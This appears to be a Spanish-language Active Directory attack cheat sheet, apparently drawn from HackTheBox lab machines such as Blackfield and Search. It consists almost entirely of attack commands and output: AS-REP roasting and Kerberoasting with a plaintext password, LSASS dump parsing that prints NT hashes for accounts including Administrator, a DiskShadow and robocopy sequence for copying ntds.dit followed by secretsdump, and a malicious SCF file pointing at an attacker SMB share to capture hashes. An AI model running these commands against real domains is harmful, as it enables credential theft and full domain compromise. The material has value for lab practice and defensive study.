 # Metodología

## ASPRepRoast Attack
```null
GetNPUsers.py blackfield.local/ -no-pass -usersfile users.txt -dc-ip 10.10.10.192
```

## Decrypt LSASS
```null
pypykatz lsa minidump lsass.DMP

INFO:root:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
[...]
	== MSV ==
		Username: svc_backup
		Domain: BLACKFIELD
		LM: NA
		NT: 9658d1d1dcd9250115e2205d9f48400d
		SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
[...]
luid 153705
	== MSV ==
		Username: Administrator
		Domain: BLACKFIELD
		LM: NA
		NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
		SHA1: db5c89a961644f0978b4b69a4d2a2239d7886368
```

## Dumpear NTDS

### Backup del System
```null
reg save HKLM\SYSTEM system.bak
```

### Backup del NTDS

#### Creación de unidad lógica temporal

**Fichero.txt**
```null
set context persistent nowriters
add volume c: alias pwn
create
expose %pwn% z:
```

#### Procesación con DiskShadow
```null
diskshadow /s fichero.txt
```

#### Copia de RoboCopy
```null
robocopy /b z:\windows\ntds . ntds.bak
```

#### Dumpeo hashes NT,LM
```null
impacket-secretsdump -ntds ntds.dit -system system local
```

## Kerberoasting Attack

```null
GetUserSPNs.py search.htb/hope.sharp:'IsolationIsKey?' -request
```

## SCF Malicioso

```null
[Shell]
Command=2
IconFile=\\10.10.16.6\shared\pwned.ico
[Taskbar]
Command=ToggleDesktop
```

## Microsoft Active Directory Certificate Services

### Generar certificados

```null
openssl req -newkey rsa:2048 -nodes -keyout amanda.key -out amanda.csr
```

